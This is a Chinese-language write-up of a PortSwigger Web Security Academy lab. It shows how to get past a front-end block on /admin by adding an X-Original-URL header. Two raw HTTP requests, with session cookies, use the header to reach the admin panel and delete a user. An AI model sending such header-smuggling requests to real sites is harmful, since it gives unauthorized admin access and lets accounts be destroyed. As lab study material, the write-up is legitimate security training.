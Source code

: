 有时应用程序可能配置有：

```javascript
DENY: POST, /admin/deleteUser, managers
```



## 不允许用户访问/admin/deleteUser目录



## 访问admin panel网页立马返回 "Access denied"

## 推测可能是前端进行了检测。尝试使用X-Original-Url : 绕过



## 1. 访问admin:

```javascript
// 前端认为只访问了/目录。不做拦截
GET / HTTP/1.1
Host: ac311fd21e5434f680714ea6005a00da.web-security-academy.net
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ac311fd21e5434f680714ea6005a00da.web-security-academy.net/
//服务端通过X-Original-URL判断url。认为请求了/admin目录
X-Original-URL: /admin
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: session=F8fRZQ1Ikq1pcAfkPO8yX7dTQIMb7GUm


```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/访问控制漏洞和特权升级/images/FE6AE4619A494667B65D76CA62DAEBDAclipboard.png)



## 2. 删除用户：

```javascript
//传递的参数
GET /?username=wiene HTTP/1.1
Host: ac311fd21e5434f680714ea6005a00da.web-security-academy.net
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ac311fd21e5434f680714ea6005a00da.web-security-academy.net/
//访问/admin/delete目录
X-Original-URL: /admin/delete
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: session=F8fRZQ1Ikq1pcAfkPO8yX7dTQIMb7GUm

```

